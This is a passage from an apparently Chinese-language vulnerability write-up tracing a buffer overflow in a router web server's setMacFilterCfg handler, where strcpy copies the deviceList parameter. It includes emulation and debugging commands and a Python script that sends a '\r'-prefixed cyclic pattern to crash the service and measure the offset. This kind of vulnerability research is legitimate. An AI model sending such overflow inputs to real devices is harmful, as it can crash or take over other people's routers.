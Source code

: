 ![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgNj4cYOiaTtbBDaTWfr5ibrllhx7CqaSkrea9icicibXibO80uJwgtBG7C5XQ/640?wx_fmt=png&from=appmsg "")  
  
该函数是用来判断传入的macFilterType参数是否符合要求(macFilterType=black或者macFilterType=white），返回0则代表正确，会进入到下述代码的else判断，从而才能进入到v19 = sub_C14DC(v18, v17);  
```
if ( v19 )  {    memset(s2, 0, sizeof(s2));    if ( GetValue("cgi_debug", s2) && !strcmp("on", (const char *)s2) )    {      n2 = 2;      printf("%s[%s:%s:%d] %s", off_1018C8[0], "cgi", "formSetMacFilterCfg", 500, off_1018C4[0]);// "\x1B[0;31m"      printf("set mac filter mode error!\n\x1B[0m");    }  }  else  {    v17 = sub_2BA8C(a1, "deviceList", &unk_F5124);    v19 = sub_C14DC(v18, v17);
```  
  
接下来进入到v19 = sub_C14DC(v18, v17); v17是我们主要关注对象(v18实际上是macFilterType，因为上面我们分析过，该参数必须是white和black，写死了，并不能作为溢出点)，该参数为deviceList  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgWItic4p6J2lS4OYrEKUBtvSYGgdadUPOC4xVA9cibh2etJ3INZTKFoYg/640?wx_fmt=png&from=appmsg "")  
  
这一大堆其实我们只需要关注s参数，这个参数对应的传入的deviceList参数  
  
可以看到，主要用到这个参数的函数为sub_C17A0(a1, s, v10);   
  
进入到sub_C17A0(a1, s, v10);函数体  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgf2kewuBIyNtXggkc76ayC6H3uNfBSPLVnE2PnMU44RgI9Kbia8ju13w/640?wx_fmt=png&from=appmsg "")  
  
该函数体调用的参数对应的是a2参数，我们发现，对应调用此参数的函数为sub_C24C0(a2, s_2);   
  
首先我们可以看到，这个函数传入两个参数，第一个参数a2就是对应的deviceList，第二个s_2是一个固定的缓冲区，且长度为176(0XB0)，这个就是我们后续用到的偏移量，后续会对这个偏移量进行验证  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKguSkibPUrMmX5AsgKkteoicFfhlL9S0tm4BVrDIrEyGU0dzRVwHBPJvLg/640?wx_fmt=png&from=appmsg "")  
  
最后，进入到sub_C24C0(a2, s_2);函数体  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgU4nJc4rxiauuQibpPMfTTibcGxGRfgwjpibXzibiaMM8yfAhoL7DQ7JPPw6g/640?wx_fmt=png&from=appmsg "")  
  
最后的函数体，传入的deviceList对应参数为s参数;  
  
src = strchr(s, 13);  首先src代表的是，在字符串s中寻找ascii码值为13，也就是“\r”的指针，然后赋值给src，也就是src是写死的；  
  
所以真正的溢出点为strcpy(src_1 + 32, s); 该函数为字符串复制函数；  
  
但是前面有一个判断语句if ( src )，所以在参数里也需要加上"\r"；由此分析结束  
  
由此得出结论：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgLXzITjvCgOKrQCgFEw4qCd93VCffNMFa5I4neBbm8QYicSywYztsayg/640?wx_fmt=png&from=appmsg "")  
### 偏移量分析  
  
启动调试，这里需要换成pwndbg，因为pwndbg可以支持更多的指令，特别是计算偏移量。下述指令是在宿主机执行的，测试环境为qemu用户级别启动  
```
# 第一个终端sudo chroot ./ ./qemu -g 1234 ./bin/httpd# 第二个终端gdb-multiarchtarget remote :1234c#第三个终端python3 1.py #漏洞溢出测试脚本
```  
```
import requestsfrom pwn import * url = "http://192.168.50.18/goform/setMacFilterCfg"cookie = {"Cookie":"password=1234111115"}data = {"macFilterType": "white", "deviceList": b"\r"+ cyclic(500)}response = requests.post(url, cookies=cookie, data=data)print(response.text)
```  
  